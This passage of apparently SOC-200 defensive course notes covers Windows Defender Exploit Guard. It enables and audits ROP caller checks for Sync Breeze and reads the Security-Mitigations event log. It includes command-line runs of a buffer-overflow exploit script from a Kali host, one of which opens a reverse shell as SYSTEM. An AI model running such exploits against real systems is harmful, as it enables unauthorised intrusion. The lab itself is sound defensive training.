User        : NT AUTHORITY\SYSTEM
ParentImage : C:\Windows\SysWOW64\cmd.exe

TimeCreated : 5/21/2021 2:50:53 PM
PID         : 5968
PPID        : 5084
CommandLine : hostname
User        : NT AUTHORITY\SYSTEM
ParentImage : C:\Windows\SysWOW64\cmd.exe
```


### Windows Defender Exploit Guard (WDEG)

WDEG provides additional auditing and control mechanisms for local malware. It was developed to address the proliferation of file-less malware.

It is an extension of the Microsoft Windows Enhanced Mitigation Expereince Toolkit (EMET). There are four major components:

1. Attack Surface Reduction (ASR): This can block executable content or network communications from Adobe Reader, VBScript, and JavaScript.
2. Controller folder access: With this, Windows can prevent applications from writing or making changes to directories specified by policy. The default is to protect C:\Users\\\<user account>\\.
3. Network protection: This relies on Microsoft's Intelligent Security Graph as a threat intelligence resource for domain/IP reputation. Anything less-than-reputable can be stopped independently of what process or application started it.
4. Exploit protection: This replaced EMET — it allows enterprises to further configure Windows Defender's behavior for applications and mechanisms not native to Windows. An Administrator must import an XML configuration file to set this up.

_Enabling RopCallerCheck for Sync Breeze using `Set-ProcessMitigation`_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Set-ProcessMitigation -Name 'C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe' -Enable EnableRopCallerCheck
[192.168.51.11]: PS C:\Users\Administrator>
```


_Validating the configuration for Sync Breeze_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Get-ProcessMitigation -Name 'C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe'

ProcessName : C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
Source                           : Registry
Id                               : 0
...
Payload:
...
    EnableRopCallerCheck               : ON
    AuditEnableRopCallerCheck          : NOTSET
```


_After restarting the service, we can test the exploit again to see if the protection stops it_

_Failed buffer overflow exploitation_


```bash
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ ./syncbreeze_exp.sh 192.168.51.11 192.168.51.50
Initiating... please wait
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
RHOST => 192.168.51.11
RPORT => 8080
LHOST => 192.168.51.50
[*] Started reverse TCP handler on 192.168.1.23:4444 
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[-] Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer
[*] Exploit completed, but no session was created.
```


The events for these actions are not stored in Windows Security logs, but rather in the Security-Mitigations logs.

_Security Mitigation event for Sync Breeze showing exploit being blocked_


```powershell
[192.168.51.11]: PS C:\Users\Administrator>Get-WinEvent -FilterHashTable @{LogName = 'Microsoft-Windows-Security-Mitigations/UserMode'; StartTime = '5/25/2021 13:42:28'; EndTime = '5/25/2021 13:42:30'} | Format-List -Property Id, TimeCreated, LevelDisplayName, Message

Id               : 22
TimeCreated      : 5/25/2021 1:42:29 PM
LevelDisplayName : Warning
Message          : Process 'C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe' 
                   (PID 3388) was blocked from calling the API
                   'LoadLibraryA' due to return-oriented programming
                   (ROP) exploit indications.
```


_Clearing the Process Mitigation configuration for Sync Breeze from Windows Registry_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Remove-Item -Path 'HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\syncbrs.exe'

Confirm

The item at HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\syncbrs.exe has children and the Recurse parameter was not specified. If you continue, all children will be removed with the item. Are you sure you want to continue?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [?] Help (default is "Y"): y
```



If we did not delete the registry key and attempted to run Set-ProcessMitigation, we would likely encounter a PowerShell exception: "Destination array was not long enough. Check destIndex and length, and the array's lower bounds."


_Enabling RopCallerCheck's Audit-Only mode for Sync Breeze_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Set-ProcessMitigation -Name 'C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe' -Enable AuditEnableRopCallerCheck
```


After restarting the service, we can then test our exploit again to confirm it is only auditing, not stopping.

_Successful buffer overflow exploit_


```bash
kali@attacker01:~$ ./syncbreeze_exp.sh 192.168.51.11 192.168.51.50
Initiating... please wait
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
RHOST => 192.168.51.11
RPORT => 8080
LHOST => 192.168.51.50
[*] Started reverse TCP handler on 192.168.51.50:4444 
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] Command shell session 1 opened (192.168.51.50:4444 ->
192.168.51.11:49876) at 2021-05-25 14:23:33 -0400


C:\Windows\system32>whoami
whoami
nt authority\system
```


_Process Mitigation Audit-only events for Sync Breeze Exploitation_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Get-WinEvent -FilterHashTable @{LogName = 'Microsoft-Windows-Security-Mitigations/UserMode'; StartTime = '5/25/2021 14:23:32'; EndTime = '5/25/2021 14:23:34'} | Format-List -Property Id, TimeCreated, LevelDisplayName, Message

Id               : 21
TimeCreated      : 5/25/2021 2:23:33 PM
LevelDisplayName : Information
Message          : Process 'C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe' 
                   (PID 6124) would have been blocked from calling the API 
                   'CreateProcessA' due to return-oriented programming (ROP) 
                   exploit indications.

Id               : 21
TimeCreated      : 5/25/2021 2:23:33 PM
LevelDisplayName : Information
Message          : Process 'C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe' 
                   (PID 6124) would have been blocked from calling the API 
                   'LoadLibraryA' due to return-oriented programming (ROP) 
                   exploit indications.
```

